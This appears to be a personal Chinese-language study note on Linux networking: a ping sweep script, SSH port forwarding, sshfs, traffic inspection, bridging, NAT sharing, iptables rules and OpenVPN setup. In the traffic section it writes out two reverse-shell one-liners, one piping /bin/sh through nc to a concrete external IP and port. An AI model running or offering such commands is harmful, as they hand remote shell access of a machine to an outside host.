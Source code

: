 # Day10

## 0x01 网络

1. ping

   列出网络中存活主机

   ```bash
   #!/bin/bash
   #  name: a.sh
   # to scan ip
   
   for ip in 192.168.0.{1,255};
   do
   	(ping $ip -c 2 & > /dev/null;
   
   	if [ $? -eq 0 ];
   	then
   		echo $ip is alive;
   		fi
   	)&
   done
   wait
   ```

2. ssh

   `-C`压缩数据

3. FTP

   ftp中可以使用的指令:

   1. `cd dir` : 更改远程主机的目录
   2. `lcd dir`: 更改本地的目录
   3. `put a b` : 将本机的a加载到远程的b
   4. `mkdir` 在远程主机上创建目录
   5. `ls` 列举远程的
   6. `get` 下载远程文件到本地
   7. `quit` 退出

4. sftp

   基于SSH开发的一款类ftp的软件000

5. **端口转发**

   将本地的8000端口转发到`www.kernel.org:80`

   ```bash
   ssh -L 8000:www.kernel.org:80 dem0@localhost
   ```

   但是这里需要注意的是 本地必须打开ssh服务不然就会

   ```
   ssh: connect to host localhost port 22: Connection refused
   ```

   你只要更改最后locahost未你想要的端口 就会把顺序更改过来。

   :a:如果你只是想要端口转发而不是要一个shell

   ```
   ssh -fL 8000:www.kernel.org:80 dem0@localhost -N
   ```

   其中`-f` 表示ssh在执行命令后转入后台执行，-N表示不需要执行命令，只进行端口转发

   :b:反向端口转发

   如果你有一台无法通过互联网访问到的主机，但是你又想要别人访问到，那么就可以设置反向端口转发。

   ```bash
   ssh -R 8000:localhost:80 username@machine
   ```

   这条命令需要在本地运行，但是后面的账号秘密应该是vps的账号。这样在vps上面访问8000端口就会访问到本地80服务了。

6. 本地挂载远程驱动器

   `sshfs -o allow_other user@remote:/home/path /mnt/mountpoint`

   unmount 可以卸载

7. 网络流量探测

   `lsof -i`  可以查看已经打开的文件（-i 限制在已经打开的网络连接上

   查看当前主机已经打开的端口

   ```
   sudo lsof -i | grep ":[0-9a-z]*" -o | grep "[0-9a-z]*" -o | sort | uniq
   ```

   可以使用

   ```bash
   netstat -tnp
   ```

   反弹shell

   ```
   nc ip port | /bin/bash | nc ip port
   ```

   原理

   ```
    rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 8.142.93.103 1337 >/tmp/f
   ```

   创建了一个管道把nc收到的数据全部打到sh的交互。

8. 网络带宽测试

   `iperf -c ip` 客户端发送

   `iperf -mc ip` 然后找最大传输单元

9. 搭建网桥

   假设现在有两个网卡 eth0 连接到子网： 192.168.1.0 eth1没有配置

   ```
   ip link add br0 type bridge #创建名未br0的新网桥
   ip link set dev eth1 master br0 # 即将eth1网卡加入到网桥
   ifconfig br0 10.10.0.2 #给网桥配置ip地址
   echo 1 > /proc/sys/net/ipv4/ip_forward # 启用分组转发
   ```

   添加路由 让`10.10.0.0/24`中的主机可以发现192.168.1.0/16路由表项

   ```
   route add -net 192.168.1.0/16 gw 10.10.0.2#网关配置成网桥的ip
   ```

   另外一个相反

   ```
   route add -net 10.10.0.0/24 gw 192.168.1.2
   ```
   
10. internet连接共享

    ```bash
    #!/bin/bash
    #name: netsharing
    #to share internet like NAT
    
    echo 1 > /proc/sys/net/ipv4/ip_forward
    
    iptables -A FORWARD -i $1 -o $2 \
    	-s 10.99.0.0/16 -m conntrack --ctstate NEW -j ACCEPT
    
    iptables -A FORWARD -m conntrack --ctstate \
    	ESTABLISHED,RELATED -j ACCEPT
    iptables -A POSTROUTING -t nat -j MASQUERADE
    ```

    简单分析一下这个脚本 全是全新的知识。

    `10.99.0.0/16`这个是自己新建立的wifi的ip。

    默认情况下，LINUX系统只接收或者生成分组，不会重传。`echo 1 > /proc/sys/net/ipv4/ip_forward`所以必须得依靠这一句命令来实现这个功能。`会让LINUX转发所有无法识别的分组` 。:red_circle: ？注意: 我们的wifi的ip一般都属于是保留ip所以连入internet的linux无法识别，他就会以自己做为网关，发送。

11. iptables 架设防火墙

    ban ip和ban发送的流量

    ```
    iptables -A OUTPUT -d 82.8.8.8 -j DROP #丢弃发送到ip的数据包
    ```

    ```
    iptables -A INPUT   -s 1.2.3.4 -j DROP #丢弃来自ip数据包
    ```

    `-d -s : dest source`

    阻止发送到特定端口的流量

    ```
    iptables -A OUTPUT -p tcp -dport 21 -j DROP
    ```

12. 搭建VPN服务

    使用OPENVPN

    第一步是安装OPENVPN，没什么好说的。

    第二步是生成证书

    ```
    easy-rsa
    ./build-ca 生成认证授权
    ./build-key server 生成服务器证书
    ./build-key client 生成客户端证书
    ./build-dh 生成DIFFIE-Hellman
    ```

    拷贝证书

    ```
    cp keys/server* /etc/openvpn
    cp keys/ca.crt /etc/openvpn
    cp keys/dh* /etc/openvpn
    ```

    客户端

    ```
    只需要拷贝ca证书和client证书
    ```

    服务器配置OPENVPN

    ```
    local ip 侦听的本地ip地址#连接到网络的地址
    ```

    修改证书路劲 还有DH的正确路劲

    服务端

    修改证书路径，设置服务器的·ip和端口就可以了
